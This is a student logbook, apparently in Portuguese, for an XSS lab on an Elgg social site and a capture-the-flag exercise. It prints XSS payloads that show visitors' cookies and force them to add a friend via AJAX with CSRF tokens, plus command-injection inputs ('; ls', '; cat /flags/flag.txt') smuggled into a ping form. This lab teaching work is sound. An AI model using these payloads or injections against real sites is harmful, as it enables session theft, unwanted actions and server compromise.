

# LOGBOOK10

## Task 1: Posting a Malicious Message to Display an Alert Window

Esta tarefa tem como objetivo embutir um programa em JavaScript, com o objetivo de que quando um utilzador vê o perfil da 'Alice' este recebe uma janela de alerta na janela:


É possível concluir o objetivo inserido este código na caixa de texto, quando esta está na opção `Edit HTML`:

```html
<script>alert('XSS');</script>
```
Obtendo o seguinte resultado do ponto de vista de qualquer outro utilizador:


## Task 2
Há semelhança da tarefa anterior, mas desta vez de modo a colocar na janela os Cookies da utilziador que visita a página.
Concluimos o objetivo com, colocando o seguinte código na caixa de texto quando esta está na opção `Edit HTML`:
```html
<script>alert(document.cookie);</script>
```


O resultado agora varia consoante os *cookies* do utilizador.

Como a Alice:


Como o Samy:


## Task 3

Ao alterar, de novo, a página de perfil Alice, conseguimos que a cada acesso a esta mesma página as cookies fossem enviadas com sucesso para a máquina.

```html
<script>document.write('');
</script>
```


A primeira captura é quando acedemos ao perfil logo assim que o acabamos de editar e a segunda foi quando através da conta do Samy acedemos ao perfil da Alice.


## Task 4


Utilizando a conta do Boby, ao executar o `Add Friend` presente na página do Samy conseguimos através da ferramenta **HTTP Header Live** aceder ao HTTP request feito:


Assim podemos concluir que o número 59 é o número associado ao Samy e utilizar o seguinte código para concluir a tarefa:
```html
<script>
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
var token="&__elgg_token="+elgg.security.token.__elgg_token; 
//Construct the HTTP request to add Samy as a friend.
var sendurl='http://www.seed-server.com/action/friends/add?friend=59'+ts+token+ts+token;
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```


De seguida, na conta da Alice, ao entrar no perfil do Samy e o `Add Friend` é realizado automaticamente. 


Obtendo assim o seguinte resultado:


### Question 1: Explain the purpose of Lines ➀ and ➁, why are they needed?
Essas linhas de código são usadas para buscar os tokens de segurança necessários para construir a URL que identifica a solicitação HTTP desejada.

### Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
Não poderemos mais lançar o ataque, uma vez que o modo de texto codifica quaisquer caracteres especiais dados como *input*.


## **CTF 10**

## **Task 1**

### The strategy to solve this CTF was using XSS attack, and waiting 2 minutes for the administrator approval.


</br>

### **First we try some things to define whats the approach we using**

|Script| Alert Trigger |
|:---------:|:---------:|
| || 

- We knew that the input was not being sanitized and because of that we can inject javascript code.
- We can conclude that we will have to do a Cross-site scripting attack (XSS).
- If we connect "visto" with the "read" on the random form that is dumped in the HTML we can easily understand what is happening.

### **We can use XSS to click on disabled button**

|Script| WebPage  |
|:---------:|:---------:|
| || 


## **Task 2**


* Firstly, given that we are ***black-boxed***, we start by analysing what features are available to non-authenticated users:
  *  Login
  *  Speed Report
  *  Ping a Host

 * We can try to blindly SQL inject the login form, with common used SQL injection commands. Not successfull.
 * We can attempt to ping ports in the current network. Like the server locate port for the challenge 5000.


* By observing the screenshot above, we can assume that the server is probably using a bash/terminal to run the unix command ping.

* To see all the directorie we can do "; ls / -la" and we can see a directory called "flags"
  
  

* Knowing this we can use "; cat /flags/flag.txt" to read the flag file

  


